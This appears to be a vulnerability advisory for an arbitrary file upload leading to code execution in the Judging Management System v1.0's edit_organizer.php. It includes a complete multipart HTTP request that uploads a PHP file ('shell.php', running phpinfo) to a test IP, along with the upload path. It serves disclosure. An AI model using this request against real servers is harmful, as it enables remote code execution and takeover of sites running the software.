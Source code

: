 # Judging Management System v1.0 by oretnom23 has arbitrary code execution (RCE)


vendors: https://www.sourcecodester.com/php/15910/judging-management-system-using-php-and-mysql-free-source-code.html

The program is built using the xmapp-php8.1 version

Vulnerability url: ip/php-jms/edit_organizer.php

Loophole location: Judging Management System's "/php-jms/edit_organizer.php" file exists arbitrary file upload (RCE)

Request package for file upload：

```sql
POST /php-jms/edit_organizer.php HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Referer: http://192.168.1.88/php-jms/edit_organizer.php
Cookie: PHPSESSID=f6bhcgo222sk31fnm99nf9tjt1
Connection: close
Content-Type: multipart/form-data; boundary=---------------------------227772473631172
Content-Length: 1760

-----------------------------227772473631172
Content-Disposition: form-data; name="fname"

admin
-----------------------------227772473631172
Content-Disposition: form-data; name="mname"

admin
-----------------------------227772473631172
Content-Disposition: form-data; name="lname"

admin
-----------------------------227772473631172
Content-Disposition: form-data; name="email"

admin@qq.com
-----------------------------227772473631172
Content-Disposition: form-data; name="pnum"

18888888888
-----------------------------227772473631172
Content-Disposition: form-data; name="cname"

111
-----------------------------227772473631172
Content-Disposition: form-data; name="caddress"

111
-----------------------------227772473631172
Content-Disposition: form-data; name="ctelephone"

11
-----------------------------227772473631172
Content-Disposition: form-data; name="cemail"

11
-----------------------------227772473631172
Content-Disposition: form-data; name="cwebsite"

11
-----------------------------227772473631172
Content-Disposition: form-data; name="file"; filename="shell.php"
Content-Type: application/octet-stream

<?php phpinfo();?>
-----------------------------227772473631172
Content-Disposition: form-data; name="username"

admin
-----------------------------227772473631172
Content-Disposition: form-data; name="passwordx"

admin
-----------------------------227772473631172
Content-Disposition: form-data; name="password2x"

admin
-----------------------------227772473631172
Content-Disposition: form-data; name="password"

admin
-----------------------------227772473631172
Content-Disposition: form-data; name="update"


-----------------------------227772473631172--
```

The files will be uploaded to this directory \php-jms\uploads
![image](https://user-images.githubusercontent.com/54017627/206372647-156724a1-ba02-4de5-99ca-5bdc77ae89fb.png)

We visited the directory of the file in the browser and found that the code had been executed
![image](https://user-images.githubusercontent.com/54017627/206372790-7ac93294-9a0a-4677-b9ab-e595d102267b.png)
